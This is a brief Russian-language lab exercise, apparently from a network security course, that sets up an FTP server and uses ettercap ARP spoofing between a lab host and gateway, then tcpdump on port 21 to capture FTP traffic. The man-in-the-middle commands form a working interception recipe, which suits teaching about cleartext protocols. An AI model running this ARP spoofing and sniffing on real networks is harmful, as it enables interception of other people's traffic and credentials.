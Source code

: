 Сервер FTP

Установка и запуск сервиса

```
root@server:~# apt install proftpd-basic

```

Утилита ettercap

Установка

```
lan# apt install ettercap-text-only
```

ARP спуфинг
```
win arp -a
```
```
lan# ettercap -T -M arp //192.168.100+X.101// //192.168.100+X.1//
```
```
win arp -a
```
```
lan# tcpdump -n -s0 -A port 21
```

Произвести подключение к FTP и посмотреть трафик
